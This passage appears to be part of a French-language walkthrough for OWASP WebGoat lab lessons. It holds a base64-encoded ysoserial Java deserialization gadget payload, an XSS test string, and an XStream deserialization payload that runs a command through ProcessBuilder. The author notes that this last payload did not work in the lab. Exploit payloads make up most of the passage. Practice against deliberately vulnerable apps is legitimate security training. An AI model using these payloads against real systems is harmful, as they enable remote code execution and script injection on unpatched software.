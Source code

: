 ```
ybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l
0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXp
hdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmF
sL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2l
udGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEADEdhZGd
ldHMuamF2YQEADElubmVyQ2xhc3NlcwcAJwEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHM
BABNTdHViVHJhbnNsZXRQYXlsb2FkAQAIPGNsaW5pdD4BABBqYXZhL2xhbmcvVGhyZWFkBwAqAQAFc2x
lZXABAAQoSilWDAAsAC0KACsALgEAH3lzb3NlcmlhbC9Qd25lcjIzNzU0MjU1MzE4ODA2MDABACFMeXN
vc2VyaWFsL1B3bmVyMjM3NTQyNTUzMTg4MDYwMDsAIQABAAMAAQAFAAEAGgAHAAgAAQAJAAAAAgAKAAQ
AAQAMAA0AAQAOAAAALwABAAEAAAAFKrcAD7EAAAACABEAAAAGAAEAAAAuABIAAAAMAAEAAAAFABMAMQA
AAAEAFQAWAAIAFwAAAAQAAQAYAA4AAAA_AAAAAwAAAAGxAAAAAgARAAAABgABAAAAMwASAAAAIAADAAA
AAQATADEAAAAAAAEAGgAbAAEAAAABABwAHQACAAEAFQAeAAIAFwAAAAQAAQAYAA4AAABJAAAABAAAAAG
xAAAAAgARAAAABgABAAAANwASAAAAKgAEAAAAAQATADEAAAAAAAEAGgAbAAEAAAABAB8AIAACAAAAAQA
hACIAAwAIACkADQABAA4AAAAZAAMAAgAAAA2nAAMBTBEnEIW4AC-xAAAAAAACACMAAAACACQAJQAAAAo
AAQABACYAKAAJdXEAfgAwAAAB1Mr-ur4AAAAxABsHAAIBACN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9
HYWRnZXRzJEZvbwcABAEAEGphdmEvbGFuZy9PYmplY3QHAAYBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQE
AEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQVx5mnuPG1HGAEABjxpbml0PgEAAyg
pVgEABENvZGUKAAMAEAwADAANAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQA
EdGhpcwEAJUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbzsBAApTb3VyY2VGaWxlAQA
MR2FkZ2V0cy5qYXZhAQAMSW5uZXJDbGFzc2VzBwAZAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2F
kZ2V0cwEAA0ZvbwAhAAEAAwABAAUAAQAaAAcACAABAAkAAAACAAoAAQABAAwADQABAA4AAAAvAAEAAQA
AAAUqtwAPsQAAAAIAEQAAAAYAAQAAADsAEgAAAAwAAQAAAAUAEwAUAAAAAgAVAAAAAgAWABcAAAAKAAE
AAQAYABoACXB0AARQd25ycHcBAHhxAH4ABXNxAH4AAnEAfgAScQB-ACxxAH4ANHg
```

#### **(A9) Vulnerable Components:**

##### Vulnerable Components

5. 
Copier-coller `Ok<script>XSS</script>` dans chaque case.

12.
![Warning](images/wiki_owasp_webgoat/warning.png)  Cette leçon ne semble pas fonctionner.

Pour la désérialisation, suivre le lien http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/ pour comprendre comment cela fonctionne. Le _payload_ suivant devrait fonctionner, mais ce n'est pas le cas.

```xml
<sorted-set>  
     <string>foo</string>  
     <dynamic-proxy>  
         <interface>java.lang.Comparable</interface>  
         <handler class="java.beans.EventHandler">  
             <target class="java.lang.ProcessBuilder">  
                 <command>  
                     <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>  
                 </command>  
             </target>  
             <action>start</action>  
         </handler>  
     </dynamic-proxy>  
</sorted-set>  
```
